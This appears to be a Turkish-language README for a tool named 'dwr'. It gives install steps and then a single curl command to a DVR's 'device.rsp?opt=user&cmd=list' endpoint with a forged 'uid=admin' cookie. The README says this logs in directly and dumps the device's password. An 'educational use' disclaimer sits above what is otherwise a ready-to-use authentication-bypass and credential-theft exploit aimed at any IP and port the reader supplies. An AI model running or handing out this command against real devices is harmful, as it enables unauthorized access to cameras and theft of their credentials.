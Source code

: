 
### TANIM:
# Öncelikle merhabalar
# Kullanım sorumlulugu tarafınıza aittir.
# herhangi bir yasal sorumluluk kabul edilmemektedir.
# eğitim amaclıdır.


## Çalıştırmak İçin

	usr@pwn:~$ git clone https://github.com/unpacker1/dwr.git
	indiriniz.
	usr@pwn:~$ cd dwr
	komutu calıstırınız
	usr@pwn:~$ pip install -r requirements.txt
	pip yapınız.
```
daha sonra aşagıdaki 
	usr@pwn:~$  [     curl "http://IP:PORT/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"          ]
curl kısmından itibaren IP VE PORT kısmına bilgilerinizi girin ve direk login olup dwr in şifresini onunuze dökecektir.
